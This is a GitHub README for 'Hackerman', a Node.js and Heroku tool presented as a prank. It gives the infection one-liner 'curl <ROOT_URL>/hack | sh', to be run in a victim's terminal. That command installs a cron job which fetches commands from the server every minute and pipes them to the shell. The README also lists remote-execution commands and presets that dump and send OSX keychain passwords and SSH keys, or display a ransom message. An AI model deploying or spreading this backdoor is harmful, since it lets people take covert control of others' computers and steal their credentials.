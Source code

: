 # Hackerman

This project may or may not be completely and totally 100% legal. I promise. 



## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
git remote remove origin
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku website and put it in your `package.json`. This way the server can inject a root url into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## Infecting

To hack someone, run this in their Terminal:

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to Heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the `/env/live` endpoint every minute and pipes the result to `sh`. And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it. Everything else happens at the commandline using the `hack` cli tool.

## API

- `hack deploy` - deploy your latest changes to Heroku.
- `hack logs` - view your server logs

The following commands are specific to environments and must be followed with a deploy for the changes to be applied to your server.

- `hack <env> exec <cmd>` - execute a command on the remote machine. e.g. `hack live exec "say hello"`
- `hack <env> cron <job>` - add a cronjob to the remote machine [[ref](http://www.nncron.ru/help/EN/working/cron-format.htm)]. e.g. `hack live cron "0 8 * * * say 'good morning'"`
- `hack <env> dump <cmd>` - execute a command on the remote machine and log the result.
- `hack <env> preset <name>` - check the source to see what presets there are and what they do.
- `hack <env> interval <time>` - change the ping interval. options are `1m`, `1d`, `1m`, `1y`
- `hack <env> reset` - reset all cronjobs and ping every minute
- `hack <env> rename <name>` - switch the env that gets pinged
- `hack <env> forget` - removed the ping cronjob to disconnect with the remote machine

## Presets
- `hack <env> preset 420` - say at 4:20PM every day 'its foe 20, ye better be toke-in'
- `hack <env> preset cronjobs` -  dump and send current cron jobs
- `hack <env> preset desktop <image_url>` - set desktop background to image
- `hack <env> preset passwords` - dump and send OSX keychains
- `hack <env> preset ransom <message>` - Opens TextEdit with ransom message
- `hack <env> preset ssh` - dump and send SSH keys

## PS

[A nice resource on how to make a Node.js CLI app.](http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm)
